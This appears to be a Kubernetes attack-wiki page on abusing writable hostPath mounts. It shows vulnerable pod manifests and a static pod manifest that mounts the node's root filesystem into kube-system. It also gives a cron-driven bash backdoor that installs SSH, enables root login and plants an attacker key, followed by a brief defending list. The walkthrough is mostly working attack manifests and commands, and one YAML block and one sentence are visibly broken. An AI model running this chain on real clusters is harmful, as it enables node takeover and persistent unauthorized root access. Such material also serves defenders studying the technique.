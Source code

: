 # Writable hostPath mount
A hostpath mount is a directory or file from the host that is mounted into the pod. If an attacker is able to create a new container in the cluster, they may be able to mount the node's file system which can be exploited in many ways.

## Kubernetes Volumes
By design, storage within pods do not persist on reboot. Any artifacts saved to a container that are not stored in a volume will be removed when a pod is restarted. Persistent volumes are a way to store data in a pod and have it persist even if the pod is restarted. There are a few different types of volumes but the most interesting one from an attacker perspective is a hostPath volume.

A hostpath volume mounts a file or directory from the host node's filesystem into a pod. Most of the time there is no real reason for this to be done, but it can be an easy way to make things "just work".

According to the [documentation](https://kubernetes.io/docs/concepts/storage/volumes/), there are a few hostPath _types_ you can pass to the manfest when creating a hostpath:
- `""`: Empty string (default) is for backward compatibility, which means that no checks will be performed before mounting the hostPath volume.
- `DirectoryOrCreate`: If nothing exists at the given path, an empty directory will be created there as needed with permission set to 0755, having the same group and ownership with Kubelet.
- `Directory`: A directory must exist at the given path
- `FileOrCreate`: If nothing exists at the given path, an empty file will be created there as needed with permission set to 0644, having the same group and ownership with Kubelet.
- `File`: A file must exist at the given path
- `Socket`: A UNIX socket must exist at the given path
- `CharDevice`: (Linux nodes only) A character device must exist at the given path
- `BlockDevice`: (Linux nodes only) A block device must exist at the given path

## Example Attack
Lets imagine that we have somehow discovered that there is a manifest that is utilizing a hostPath mount to mount the root directory(`/`) of the node into a pod.

The manifest may look simliar to below.

```yaml
# Dangerous
apiVersion: v1
kind: Pod
metadata:
  name: vuln-nginx
  namespace: dmz
spec:
  containers:
  - name: vuln-nginx
    image: nginx
    volumeMounts:
    - name: hostmount
      mountPath: /nodeFS

  volumes:
  into the pod"
  - name: hostmount
    hostPath:
      path: /  
```

Lets assume that at some point a kubernetes admin made a `dmz` namespace and applied this vulnerable manifest to it.

![](../images/Pasted%20image%2020240331195411.png)

As an attacker we either are lucky enough to find ourselves already in the `vuln-nginx` pod, or we exec into the pod. Upon looking at the file system, we can see that the `nodeFS` directory contains the contents of the filesystem of the node running the pod. We can exploit this by utilzing [Persistence -> Static pod](./Persistence/Static_pods.md) to spawn a pod outside of the `dmz` namespace.

![](../images/Pasted%20image%2020240331195500.png)

Going back to the cluster, we can query the API server for pods in the `production` namespace by running `kubectl get pods -n production`. We can see that the yaml written to `/nodeFS/etc/kubernetes/manifests/jump2prod.yaml` was picked up by the kubelet and launched.

![](../images/Pasted%20image%2020240331195512.png)

Indeed, it seems the `jump2prod` container was created. Note that the node name was appended to our pod as discussed previously. This is great for jumping into another namespace, but from this `FINISH`

# Attack 2

Lets assume the following manifest was used to deploy an nginx server into the DMZ. Due to the houstmount giving us access to `/etc/kubernetes/` path, we will be able to take over the cluster.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: vuln-nginx 
  namespace: dmz
spec:
  containers:
  - name: vuln-nginx
    image: nginx 
    volumeMounts:
    - name: hostmount
      mountPath: /goodies

  volumes:
  - name: hostmount 
    hostPath:
      path: /etc/kubernetes/
```

In this scenario, the path `/etc/kubernetes` on the node was mounted into the pod under `/goodies`. Looking at this directory, we can see that there is indeed some configuration files for the kubelet as well as the manifests directory.

![](../images/Pasted%20image%2020240331195602.png)

With this information, we can probably create a [Persistence -> Static Pod](./Persistence/Static_pod.md). In order to exploit this, we are going to create a static pod with an additional hostmount, but this time we are going to mount the root of the node `/` into the directory `/pwnd`. To facilitate this we will create a new manifest that will perform these mounts in a pod called `ohnode`
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ohnode 
  namespace: kube-system 
spec:
  containers:
  - name: ohnode 
    image: nginx 
    volumeMounts:
    - name: hostmount
      mountPath: /pwnd

  volumes:
  - name: hostmount 
    hostPath:
      path: /

```

To create the static pod, we simply place this manifest into the `/etc/kubernetes/manifests` directory and the kubelet will start the pod. Looks like our pod was created in the `kube-system` namespace.

![](../images/Pasted%20image%2020240331195652.png)

Lets exec into the pod. We can see that `/pwnd` exists and upon moving into it we see the `/` of the node's file system. To make things a little simpler, `chroot /pwnd` to make sure our we don't accidentially mess up our paths and put something in the wrong directory on the pod's filesystem.

Finally, lets backdoor the node with cron so that we can SSH to it. In this example, we will assume the node has cron installed and the cron service is running(by default minikube does not). To backdoor the node and ensure SSH is running, run the following commands

```bash
# Place our backdoor script into /tmp/ssh.sh
# This will be ran by cron
cat << EOF > /tmp/ssh.sh
apt update ; apt install openssh-server -y ; mkdir -p /var/run/sshd && sed -i 's/\#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config && sed 's@session\s*required\s*pam_loginuid.so@session optional pam_loginuid.so@g' -i /etc/pam.d/sshd ; mkdir -p ~/.ssh && touch authorized_keys ; echo "YOUR PUBLIC KEY HERE" >> ~/.ssh/authorized_keys ; /usr/sbin/service ssh restart

# Then type EOF and press enter

# Ensure the script has execute permissions
chmod +x /tmp/ssh.sh

# This will keep adding your SSH key
# you could change `>>` to `>` but that will overwrite other keys in there.
echo "* * * * * root cd /tmp && sh ssh.sh" >> /etc/cron.d/ssh
```

![](../images/Pasted%20image%2020240331195709.png)

Now, assuming cron is running on the node, wait about a minue and you should see that your public key has been added to `/root/.ssh/authorized_keys`!

Now all you need to do is ssh into the node (assuming there is no firewalls in the way): `ssh -i <key> root@<node>`

![](../images/Pasted%20image%2020240331195726.png)


# Defending
- From [microsoft](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/):
	- Restrict over permissive containers using something such as [[admission controller]]s
	- Restrict file and directory permissions by ensuring mounts are read only
	- Restrict containers using linux security modules such as [[AppArmor]] or [[SELinux]]
	- Ensure that pods meet defined [[pod security standards]]. Baseline or restricted will stop volume mounts.

> Pull requests needed ❤️ 